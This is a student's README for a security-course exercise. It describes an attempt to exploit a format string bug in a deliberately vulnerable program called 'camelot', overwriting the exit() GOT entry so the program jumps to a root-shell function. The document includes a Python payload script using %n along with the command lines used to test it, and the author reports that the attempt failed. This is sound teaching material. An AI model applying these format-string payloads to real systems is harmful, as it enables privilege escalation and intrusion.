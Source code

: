 # Bonus #0
Full name: **Theodoros Moraitis** (Θεόδωρος Μωραΐτης) <br>
StudentID: **sdi2000150** (1115202000150)

## Careless Printing: Format string attack

This readme details how the format string exploit was crafted and executed against the vulnerable `camelot.c` program (`camelot` executable). The objective was to provide as an argument a string formatted in a way that the `printf()` inside the `check()` function overwrites a return address with the address of `the_kingdom_is_yours()` function provided in the program, which spawns a root shell. Sadly I didn't managed to create a successful exploit and gain root access, but I think i got close...

## Overview

By analyzing the program `camelot.c` (which is called by the `camelot_wrap.c`), I found out that a "careless print" happens inside the `check()` function. 
This is what is being executed when the key given is wrong:
```c
char * message;
asprintf(&message, "Wrong key: %s. No key, no entry!\n", key);
printf(message);
// free(message) // memleak - it's ok for now
```
We can see that the `printf(message)` is vulnerable because it directly prints the `message` string without any format specifiers. This allows an attacker to craft a format string that can read anything from the stack, or even write anywhere in it.

## Understanding the possible ways of achieving the format string attack

Firstly we need to find the address of the `the_kingdom_is_yours()` function. This is easy, just by running the program with gdb, then setting a breakpoint in check() function, running until that point, doing a disassembly of the check() function and then we can see the value `the_kingdom_is_yours()` has (which is a pointer to the function itself): ```0x804931f```
```asm
0x080493aa <+87>:    call   0x804931f <the_kingdom_is_yours>
```
<br>

The goal is to overwrite the return address with the address of the `the_kingdom_is_yours()` (`0x804931f`). <br>
The question is which return address? The return address of the `check()` function? The return address of a libc function via the GOT addresses provided? <br>

I started by trying to overwrite the return address of the `check()` function. I knew at some point I had to use the format specifier `%n` so that to overwrite the return address, but the hard part was how to reach it... <br>
By running the program like this:
```
$ camelot "AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"
```
41414141 was printed at last (%x). So the 36th %x was AAAA itself. From this I could assume that the 36th argument on the stack is where our input string started. This means I could use this offset to control the format string exploit.

...After a lot of testing this did not end anywhere...
<br><br>
So i started thinking of the second way: overwritting a libc call via the GOT table.
I chose the exit() syscall:
```bash
$ objdump --dynamic-reloc /bin/camelot_real:
...
0804b384 R_386_JUMP_SLOT   exit@GLIBC_2.0
...
```
So, this is the exploit i crafted:
```python
import struct
import sys

# Addresses
the_kingdom_is_yours_addr = 0x0804931f      # Address of the_kingdom_is_yours
got_exit_addr = 0x0804b384                  # GOT entry for exit
offset = 36                                 # Number of %x to reach the start of input
# 0x0804931f = 134517535 in decimal (the_kingdom_is_yours)
# 0x0804b384 = 134525828 in decimal (exit)

payload = b""

# $ camelot $(python3 -c 'print("\x84\xb3\x04\x08%134513915u%36$n")')
# Add into payload the got_exit_addr
payload += struct.pack("I", got_exit_addr)

# Add into payload a number in decimal that if added to the current number of characters printed 
# (got_exit_addr) will be equal to the address of the_kingdom_is_yours:
# 134525828 + x = 134517535 <=> x = -8293 (negative?)
# or maybe 134517535 - 4 = 134517531 (?)
payload += b"%134517531u"

# The 36th argument is the first input given, so the got_exit_addr will be overwritted 
# with everything that is printed before the 36th argument (the address of the_kingdom_is_yours)
payload += b"%36$n"

sys.stdout.buffer.write(payload)
```

I tested it like this:
```bash
ubuntu@120bb0d88765:~$ python3 /exploit.py > payload
ubuntu@120bb0d88765:~$ camelot `cat payload` > tempout
```
So that it doesn't print forever in the terminal.<br>
Sadly it didn't work either...